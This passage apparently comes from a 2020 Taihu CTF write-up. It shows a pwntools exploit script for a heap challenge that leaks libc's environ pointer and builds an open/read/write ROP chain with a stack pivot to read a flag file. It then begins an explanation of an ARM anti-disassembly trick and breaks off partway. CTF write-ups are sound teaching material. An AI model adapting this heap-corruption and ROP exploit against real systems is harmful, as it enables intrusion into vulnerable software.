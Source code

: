 ```python
edit_info(4,0x10,p64(0x170 + heap_base))
add('d',9,0x60,'./flag')
environ_addr = libc_base + 0x3c6f38
payload = p64(0) + p64(0x21) + p64(environ_addr) + p64(0x40) + p64(0) + p64(0x21)
edit_info(2,0x90,payload)
show(9)
sh.recvuntil('Info:')
environ = u64(sh.recv(6).ljust(8,'\x00'))
log.success("environ = " + hex(environ))
log.info('1')
payload = p64(0) + p64(0x21) + p64(heap_base + 0xb0) + p64(0x50) + p64(0) + p64(0x21)
edit_info(2,0x90,payload)
rdi_ret = 0x0000000000021112 + libc_base 
rsi_ret = 0x00000000000202f8 + libc_base
rdx_ret = 0x0000000000001b92 + libc_base
buf_addr = heap_base + 0x2000
leave_ret = libc_base + 0x0000000000042361
open_addr = libc_base + libc.symbols['open']
read_addr = libc_base + libc.symbols['read']
write_addr = libc_base + libc.symbols['write']
flag = heap_base + 0x130
rop = p64(rdi_ret) + p64(flag) + p64(rsi_ret) + p64(0) + p64(open_addr)
rop += p64(rdi_ret) + p64(3) + p64(rsi_ret) + p64(buf_addr) + p64(rdx_ret) + p64(0x30) + p64(read_addr)
rop += p64(rdi_ret) + p64(1) + p64(rsi_ret) + p64(buf_addr) + p64(rdx_ret) + p64(0x30) + p64(write_addr)
edit_info(9,0xa0,rop)
payload = p64(0) + p64(0x21) + p64(heap_base + 0x270) + p64(0x10) + p64(0) + p64(0x21)
rbp = environ - 0x128
rop_addr = heap_base + 0x380
edit_info(2,0x90,payload)
edit_info(9,0x10,p64(rbp) + p64(9))
# gdb.attach(sh)
edit_name(9,p64(rop_addr - 0x8) + p64(leave_ret))
# 
sh.interactive()
```

## Rev

### easy\_rev

简单的逆向，程序一开始玩了一点点小花招，再`init_array`将全局数组的内容改了。并且使用了arm中常见的anti-ida的技巧，混入了几个有问题的字节。**这里并不是塞得无意义字节啦，本意首先塞入一个叫做PLD的加速指令。**  
![](2020-Taihuctf-writeup/PLD.png)  
这个指令中提到，如果发生了异常，系统会将这个指令当成NOP处理。而出题使用的字节码为`0xF5DFDF02`，翻译成二进制即为
```
11110101110111111 1011 11100000010
                   ^
                   |
               注意这一段
```
而这个指令在手册中的定义如下。。。